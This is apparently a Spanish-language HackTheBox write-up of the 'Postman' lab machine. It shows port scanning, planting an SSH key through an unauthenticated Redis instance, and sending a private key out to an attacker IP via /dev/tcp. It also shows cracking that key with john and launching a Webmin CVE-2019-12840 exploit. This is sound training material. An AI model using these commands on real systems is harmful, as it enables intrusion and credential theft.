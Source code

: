 ```yaml
---
title: HackTheBox - Postman
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Redis Exploitation', 'RCE Webmin (CVE-2019-12840)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Postman/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Postman Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Redis Exploitation, RCE Webmin (CVE-2019-12840)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Postman/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Postman/02-versions.png)

c. Empezaremos investigando alguna posible vulnerabilidad de **redis**, ya que la página web no tiene información relevante y poseemos credenciales para el servicio de **Webmin**

* Pentesting [Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

Como si nos podemos conectar al servicio de redis, veremos si somos capaces de agregar una clave id_rsa pública, con el fin, de conectarnos por SSH

```bash
❯ pwd
/root/.ssh
❯ ssh-keygen -t rsa
❯ cat spaced_key.txt | redis-cli -h <IP Postman> -x set ssh_key
❯ redis-cli -h <IP Postman>
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
```

> Si tenemos algún error al ejecutar alguno de los comandos anteriores, debemos **reiniciar la máquina**
{: .prompt-info }

d. Ahora, ya seremos capaces de conectarnos al servicio **SSH** y empezar a enumerar el sistema para escalar privilegios

### Escalada de Privilegios 💹

a. Encontramos una clave **id_rsa** en el directorio opt, la cuál transferimos a nuestra máquina

```bash
redis@Postman:/opt$ cat < id_rsa.bak > /dev/tcp/10.10.14.18/4444
-----------------------------------------------------------------
❯ nc -lvnp 4444 > id_rsa
```

Esta clave está protegida con contraseña, así que extraeremos el hash con **ssh2john** para crackearlo

```bash
❯ ssh2john id_rsa > hash
❯ john hash -w=/usr/share/wordlists/rockyou.txt
id_rsa:computer2008
```

b. La contraseña obtenida es del usuario **Matt** y también sirve para conectarse al servicio Webmin

* Al convertirnos en **Matt** veremos que el propietario del proceso de webmin es **root**, además de ver la versión al momento de autenticarnos en Webmin

    ```bash
    Matt@Postman:/opt$ ps -faux | grep -i webmin
    <SNIP>
    root        723  0.0  3.1  95296 29256 ?        Ss   14:28   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
    ```

    ![](/assets/images/HTB/Easy/Postman/03-version.png)

Al buscar un exploit para esta versión de Webmin llegamos a [CVE-2019-12840](https://github.com/roughiz/Webmin-1.910-Exploit-Script)

c. Nos ponemos en escucha con **nc** y ejecutamos el script

![](/assets/images/HTB/Easy/Postman/04-exploit.png)
